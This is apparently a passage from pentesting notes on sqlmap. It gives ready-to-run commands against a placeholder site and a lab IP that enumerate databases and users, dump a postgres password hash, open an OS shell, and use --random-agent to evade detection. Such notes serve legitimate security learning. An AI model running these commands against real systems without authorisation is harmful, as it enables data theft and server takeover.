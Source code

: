 >Tip: to indicate  within the saved request file which parameter we want to inject, use an asterisk (`*`), such as '/?id=*'.

## Using URL

You can also provide the url with --url or -u

```bash
sqlmap --url ‘http://victim.site’  --dbs --batch //
sqlmap --url ‘http://victim.site’  --users // gets users
sqlmap --url ‘http://victim.site’  --tables // gets all tables
sqlmap --url ‘http://victim.site’  --batch //


# Check what users we have and which privileges that user has.
sqlmap -u $IP/path.php --forms --cookie="PHPSESSID=v5098os3cdua2ps0nn4ueuvuq6" --batch --users

# Dump the password hash for an user (postgres in the example) and exploit that super permission.
sqlmap -u http://10.129.95.174/dashboard.php --forms -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
 -U postgres --password --batch

# Get a shell 
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=e14ch3u8gfbq8u3h97t8bqss9o" --batch --os-shell       

# Enumeration usually starts with the retrieval of the basic information:
# Database version banner (switch `--banner`)
sqlmap -u http://10.129.95.174/dashboard.php --banner

# Current user name (switch `--current-user`)
sqlmap -u http://10.129.95.174/dashboard.php --current-user

# Current database name (switch `--current-db`)
sqlmap -u http://10.129.95.174/dashboard.php --current-db

# Checking if the current user has DBA (administrator) rights (switch `--is-dba`)
sqlmap -u http://10.129.95.174/dashboard.php --is-dba
```

Some switches:

```
# Escape detection. There is a switch --random-agent designed to randomly select a User-agent header value from the included database of regular browser values.
--random-agent

#  the `--mobile` switch can be used to imitate the smartphone by using that same header value. 
```

## Test headers

While SQLMap, by default, targets only the HTTP parameters, it is possible to test the headers for the SQLi vulnerability.  The easiest way is to specify the "custom" injection mark after the header's value (e.g. `--cookie="id=1*"`). 
